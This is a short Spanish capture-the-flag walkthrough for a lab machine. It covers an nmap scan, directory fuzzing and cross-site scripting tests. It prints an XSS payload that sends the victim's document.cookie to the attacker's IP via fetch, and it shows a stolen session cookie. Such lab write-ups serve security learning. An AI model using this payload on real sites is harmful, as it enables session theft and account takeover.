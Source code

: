 ## Enumeración de puertos/servicios

``` bash 
sudo nmap -sCVT 10.10.11.8
```

![[Pasted image 20240404160810.png]]

Podemos ver 2 puertos abiertos:
- 22 (SSH)
- 5000 (posiblemente una web)

Vamos a probar si funciona la ip con el puerto 5000.

![[Pasted image 20240404161047.png]]


Efectivamente funciona la web, una vez tenemos acceso a ella lo primero que vamos a hacer es realizar un fuzzing en busca de directorios:

![[Pasted image 20240404162710.png]]
## Detección de vulnerabilidades


![[Pasted image 20240404163854.png]]

![[Pasted image 20240404163806.png]]


``` javascript
<script>alert(‘XSS’)</script>
```


![[Pasted image 20240404163454.png]]

Después de probar con algunos xss decido probar por otro lado a ver si funciona.

![[Pasted image 20240404164540.png]]

![[Pasted image 20240404183654.png]]

![[Pasted image 20240404183642.png]]

``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```

![[Pasted image 20240404184159.png]]


![[Pasted image 20240404184144.png]]

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"

![[Pasted image 20240404184300.png]]
